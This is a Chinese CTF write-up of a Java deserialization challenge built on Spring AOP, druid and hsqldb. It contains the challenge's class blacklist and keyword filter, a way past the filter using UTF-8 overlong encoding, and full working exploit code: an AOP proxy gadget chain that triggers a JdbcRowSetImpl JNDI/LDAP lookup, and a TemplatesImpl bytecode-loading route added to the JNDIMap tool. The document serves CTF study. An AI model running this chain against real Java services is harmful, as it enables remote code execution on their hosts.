








# 浅析CCSSSC软件攻防赛druid+Hsql依赖题解-先知社区

> **来源**: https://xz.aliyun.com/news/17510  
> **文章ID**: 17510

---

# 环境

pom.xml依赖

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <parent>
        <groupId>org.springframework.boot</groupId>

        <artifactId>spring-boot-starter-parent</artifactId>

        <version>2.7.0</version>

        <relativePath/> <!-- lookup parent from repository -->
    </parent>

    <groupId>org.example</groupId>

    <artifactId>justDeserialize</artifactId>

    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>11</maven.compiler.source>

        <maven.compiler.target>11</maven.compiler.target>

        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>

    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>

            <artifactId>spring-boot-starter-data-jpa</artifactId>

        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>

            <artifactId>spring-boot-starter-web</artifactId>

        </dependency>

        <dependency>
            <groupId>org.hsqldb</groupId>

            <artifactId>hsqldb</artifactId>

            <version>2.4.1</version>

        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>

            <artifactId>druid-spring-boot-starter</artifactId>

            <version>1.2.8</version>

        </dependency>

    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>

                <artifactId>spring-boot-maven-plugin</artifactId>

            </plugin>

        </plugins>

    </build>

</project>

```

有druid和hsqldb



还有jackson依赖

# 题目

题目直接给了一个反序列化的入口点



waf点

1、对我们的明文反序列化数据流进行简单的过滤

2、重写了ObjectInputStream类，来进行黑名单的判断

其中MyObjectInputStream类代码如下

```
package com.example.ezjav.utils;

import java.io.BufferedReader;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;

/* loaded from: justDeserialize-1.0-SNAPSHOT.jar:BOOT-INF/classes/com/example/ezjav/utils/MyObjectInputStream.class */
public class MyObjectInputStream extends ObjectInputStream {
    private String[] denyClasses;

    public MyObjectInputStream(ByteArrayInputStream var1) throws IOException {
        super(var1);
        ArrayList<String> classList = new ArrayList<>();
        InputStream file = MyObjectInputStream.class.getResourceAsStream("/blacklist.txt");
        BufferedReader var2 = new BufferedReader(new InputStreamReader(file));
        while (true) {
            String var4 = var2.readLine();
            if (var4 != null) {
                classList.add(var4.trim());
            } else {
                this.denyClasses = new String[classList.size()];
                classList.toArray(this.denyClasses);
                return;
            }
        }
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        int var5 = this.denyClasses.length;
        for (int var6 = 0; var6 < var5; var6++) {
            String denyClass = this.denyClasses[var6];
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}
```

从blacklist中读取baned类，且在resolveClass中进行过滤

blacklist.txt

```
javax.management.BadAttributeValueExpException
com.sun.org.apache.xpath.internal.objects.XString
java.rmi.MarshalledObject
java.rmi.activation.ActivationID
javax.swing.event.EventListenerList
java.rmi.server.RemoteObject
javax.swing.AbstractAction
javax.swing.text.DefaultFormatter
java.beans.EventHandler
java.net.Inet4Address
java.net.Inet6Address
java.net.InetAddress
java.net.InetSocketAddress
java.net.Socket
java.net.URL
java.net.URLStreamHandler
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
java.rmi.registry.Registry
java.rmi.RemoteObjectInvocationHandler
java.rmi.server.ObjID
java.lang.System
javax.management.remote.JMXServiceUR
javax.management.remote.rmi.RMIConnector
java.rmi.server.RemoteObject
java.rmi.server.RemoteRef
javax.swing.UIDefaults$TextAndMnemonicHashMap
java.rmi.server.UnicastRemoteObject
java.util.Base64
java.util.Comparator
java.util.HashMap
java.util.logging.FileHandler
java.security.SignedObject
javax.swing.UIDefaults
```

# 思考

## 第一步

绕过第一层waf

```
if (temp.contains("naming") || temp.contains("com.sun") || temp.contains("jdk.jfr")) 
{
    return "banned";
 }
```

有两种办法

法一、利用UTF8OverlongEncoding方法

法二、不使用存在这些字符串的类(com.sun,naming,jdk.jfr)

## 第二步

调用AOP链子是

```
readObject
PriorityQueue#readObject() ->
PriorityQueue#heapify() ->
PriorityQueue#siftDown()->
PriorityQueue#siftDownUsingComparator() ->
Proxy#任意接口
JdkDynamicAopProxy.invoke()->
ReflectiveMethodInvocation.proceed()->
AspectJAroundAdvice->invoke->
org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethod()->
method.invoke()
```

参考了这几篇文章

```
https://github.com/Ape1ron/SpringAopInDeserializationDemo1
https://mp.weixin.qq.com/s/oQ1mFohc332v8U1yA7RaMQ
https://gsbp0.github.io/post/springaop/
```

jndi工具我是用了

```
https://github.com/X1r0z/JNDIMap
```

启动



然后我是在题目坏境下面新建了一个Exp类，好像用自己的springAOP版本不匹配也不行

POC

```
package com.example.ezjav;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import com.sun.rowset.JdbcRowSetImpl;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import java.lang.reflect.*;
import java.util.*;

import static sun.reflect.misc.FieldUtil.getField;

public class Exp {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:1389/Deserialize/Jackson/Command/Y2FsYw==");
        Method method=jdbcRowSet.getClass().getMethod("getDatabaseMetaData");
        System.out.println(method);
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(jdbcRowSet);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) getAProxy(advice,Advice.class);
        Proxy finalproxy=(Proxy) getBProxy(proxy1,new Class[]{Comparator.class});
        
        //代理链子
        PriorityQueue priorityqueue=new PriorityQueue(1);
        priorityqueue.add(1);
        priorityqueue.add(2);

        setValue(priorityqueue,"comparator",finalproxy);
        setValue(priorityqueue,"queue",new Object[]{proxy1,proxy1});

        //序列化反序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(priorityqueue);
        objectOutputStream.close();
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);
        new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(res))).readObject();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;

        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class, Advice.class}));
        advisedSupport.addAdvisor(advisor);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
        return proxy;
    }
}

```





弹出计算器

坑点：

如果你用jadx保存伪代码的话，记得在项目新建一个，把那个黑名单文件放进去


然后设置为Resources目录

具体看

```
https://blog.csdn.net/zhujian82637/article/details/123124685?fromshare=blogdetail&sharetype=blogdetail&sharerId=123124685&sharerefer=PC&sharesource=git_clone&sharefrom=from_link
```

不然就会找不到这个文件爆错java.lang.NullPointerException

# 解题

回到第一步，因为我们还没对我们的payload进行处理

```
https://xz.aliyun.com/news/13372?time__1311=eqUxuDcDBjGQit%3DDsD7mPD%3DKf4Hz3hH4D&u_atoken=3aceeb56a87e85a8d2ae85913b31e802&u_asig=1a0c380917430841798366531e003c
```



利用这位师傅的工具类代码即可绕过if判断

然后打本地jar包的时候我又换了另外一个工具web-chain（java-chain）



发现这个工具会一直帮你反序列化，然后一直弹计算器，直接卡爆，然后继续用JNDIMap

```
https://github.com/X1r0z/JNDIMap
```

在Gadgets类下面新增加下列代码

```
public static TemplatesImpl createMyTemplatesImpl(String cmd) throws Exception {
        System.out.println("my exp"+cmd);
        TemplatesImpl templatesImpl = new TemplatesImpl();
        byte[] bytes = getBytes();
        ReflectUtil.setFieldValue(templatesImpl, "_name", "Hello");
        ReflectUtil.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        ReflectUtil.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        return templatesImpl;
    }
    public static byte[] getBytes() throws IOException {
        //    第一次
//        InputStream inputStream = new FileInputStream(new File("./TomcatEcho.class"));
        //  第二次
        InputStream inputStream = new FileInputStream(new File("C:\Users\shushu\Desktop\wp\test.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
```

这个主要是把恶意的.class文件加载成字节码的

然后在DeserializeController类下面增加一个自定义路由

```
@JNDIMapping("/Jackson/My/Command/{cmd}")
    public byte[] JacksonMyCmd(String cmd) throws Exception {
        TemplatesImpl templatesImpl = Gadgets.createMyTemplatesImpl(cmd);
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");

        if (!ctClass.isFrozen()) {
            CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(ctMethod);
            ctClass.freeze();
            ctClass.toClass();
        }
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templatesImpl);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getDeclaredConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler jdkDynamicAopProxyHandler = (InvocationHandler) constructor.newInstance(as);

        Templates templatesProxy = (Templates) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, jdkDynamicAopProxyHandler);

        POJONode pojoNode = new POJONode(templatesProxy);
        BadAttributeValueExpException e = new BadAttributeValueExpException(null);
        setFieldValue(e, "val", pojoNode);

        byte[] data = SerializeUtil.serialize(e);
        return data;
    }
```



弹出计算器

# 小结

这道题利用SpringAOP链非常的巧妙后续也会继续深入研究，然后复现POC放在github上面了

```
复现文档
https://github.com/Shux1sh/ccsssc_Poc/tree/NewCode

JNDIMap_poc源码
https://github.com/Shux1sh/ccsssc_Poc/releases
```
